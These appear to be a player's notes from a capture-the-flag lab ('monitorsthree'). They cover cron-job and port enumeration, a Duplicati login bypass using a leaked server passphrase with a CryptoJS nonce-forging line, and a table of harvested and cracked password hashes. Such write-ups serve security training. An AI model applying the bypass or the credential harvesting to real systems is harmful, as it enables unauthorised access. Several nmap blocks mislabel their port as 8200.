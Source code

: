User: marcus
Passord: 12345678910
### START

From here the first thing i noticed was the following contents in the folder /opt

```bash
marcus@monitorsthree:~$ ls /opt
backups  containerd  docker-compose.yml  duplicati
```

So we have a duplicati instance running inside a docker container. This is probably the following step towards root.  

### CRONJOBS

```bash
-rw-r--r--   1 root root   67 May 18 21:47 cacti
-rw-r--r--   1 root root   46 May 20 17:30 cleanup_cacti
-rw-r--r--   1 root root   47 May 21 16:24 cleanup_cron
-rw-r--r--   1 root root   69 Aug 18 10:18 duplicati

$ cat /etc/cron.d/cleanup_cacti 
* * * * * root /root/scripts/cleanup_cacti.sh

$ cat /etc/cron.d/cacti 
*/5 * * * * apache2 php /var/www/html/cacti/poller.php &>/dev/null

$ cat /etc/cron.d/cleanup_cron 
*/5 * * * * root /root/scripts/cleanup_cron.sh

$ cat /etc/cron.d/duplicati 
*/10 * * * * root cd ~/scripts/duplicati-client && python3 client.py

```

### KNOWN VULNS 

In this case if found the following:

- https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee
- https://github.com/duplicati/duplicati/issues/5197

So i got the passphrases from the server:

```bash
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
```

I had a bit of trouble exploiting this, so i explored other options in the mean time, however, in the end it ended up working.

```js
var noncepwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('AB4CGYH0GoXgmMgRA2uCZgr6SjKzSLDP1GXFPMf64rk=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64); // The first one is the nonce and the second one is the hex of the server-passphrase
```

Now we are inside of [[duplicati]].

**Nothing in exploit db/searchsploit**
**Nothing found in nist/nvd**

### GATHERING PASSWORDS

| **username**      | **hash**                                                       | **password**   |
| ----------------- | -------------------------------------------------------------- | -------------- |
| marcus@cacti      | `$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK` | 12345678910    |
| admin@cacti       | `$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G` |                |
| guest@cacti       | `$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu` | guest          |
| dthompson@web     | `c585d01f2eb3e6e1073e92023088a3dd`                             |                |
| janderson@web     | `1e68b6eb86b45f6d92f8f292428f77ac`                             |                |
| mwatson@web       | `633b683cc128fe244b00f176c8a950f5`                             |                |
| admin@web         | `31a181c8372e3afc59dab863430610e8`                             | greencacti2001 |
| cactiuser@mariadb | ...                                                            | cactiuser      |

### GENERIC INFORMATION

As for ports listening in this computer:

```bash
marcus@monitorsthree:/opt/backups/cacti$ ss -tuln
Netid    State     Recv-Q    Send-Q         Local Address:Port          Peer Address:Port    Process    
udp      UNCONN    0         0              127.0.0.53%lo:53                 0.0.0.0:*                  
udp      UNCONN    0         0                    0.0.0.0:68                 0.0.0.0:*                  
tcp      LISTEN    0         4096               127.0.0.1:38983              0.0.0.0:*                  
tcp      LISTEN    0         4096               127.0.0.1:8200               0.0.0.0:*                  
tcp      LISTEN    0         128                  0.0.0.0:22                 0.0.0.0:*                  
tcp      LISTEN    0         511                  0.0.0.0:80                 0.0.0.0:*                  
tcp      LISTEN    0         70                 127.0.0.1:3306               0.0.0.0:*                  
tcp      LISTEN    0         500                  0.0.0.0:8084               0.0.0.0:*                  
tcp      LISTEN    0         4096           127.0.0.53%lo:53                 0.0.0.0:*                  
tcp      LISTEN    0         128                     [::]:22                    [::]:*                  
tcp      LISTEN    0         511                     [::]:80                    [::]:*    
```

- PORT 38983: http server, that returns not found.

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-13 11:01 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000079s latency).

PORT     STATE SERVICE   VERSION
8200/tcp open  trivnet1?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Fri, 13 Sep 2024 09:02:30 GMT
|     Content-Length: 19
|     Content-Type: text/plain; charset=utf-8
|     404: Page Not Found
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Date: Fri, 13 Sep 2024 09:02:03 GMT
|     Content-Length: 19
|     Content-Type: text/plain; charset=utf-8
|_    404: Page Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8200-TCP:V=7.80%I=7%D=9/13%Time=66E3FF6D%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,8F,"HTTP/1\.0\x20404\x20Not\x20Found\r\nDate:\
SF:x20Fri,\x2013\x20Sep\x202024\x2009:02:03\x20GMT\r\nContent-Length:\x201
SF:9\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\n404:\x20Page\
SF:x20Not\x20Found")%r(HTTPOptions,8F,"HTTP/1\.0\x20404\x20Not\x20Found\r\
SF:nDate:\x20Fri,\x2013\x20Sep\x202024\x2009:02:03\x20GMT\r\nContent-Lengt
SF:h:\x2019\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\n404:\x
SF:20Page\x20Not\x20Found")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConn
SF:ection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20char
SF:set=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Term
SF:inalServerCookie,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(TLSSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20B
SF:ad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConne
SF:ction:\x20close\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,8F,"
SF:HTTP/1\.0\x20404\x20Not\x20Found\r\nDate:\x20Fri,\x2013\x20Sep\x202024\
SF:x2009:02:30\x20GMT\r\nContent-Length:\x2019\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=utf-8\r\n\r\n404:\x20Page\x20Not\x20Found")%r(LPDString
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request");

```

- PORT 8200: The duplicati login page

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-13 11:10 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000083s latency).

PORT     STATE SERVICE VERSION
8200/tcp open  http    Duplicati httpserver
|_http-server-header: Tiny WebServer
| http-title: Duplicati Login
|_Requested resource was /login.html

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

- PORT 3306: A mariadb instance

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-13 11:12 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000083s latency).

PORT     STATE SERVICE VERSION
8200/tcp open  mysql   MySQL 5.5.5-10.6.18-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.18-MariaDB-0ubuntu0.22.04.1
|   Thread ID: 3643
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, FoundRows, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, LongColumnFlag, ODBCClient, SupportsLoadDataLocal, SupportsCompression, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: w0&lpkLv0*"kt(dB\+]u
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```

- PORT 8084: ???

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-13 11:14 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000081s latency).

PORT     STATE SERVICE   VERSION
8200/tcp open  trivnet1?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 171.47 seconds
```

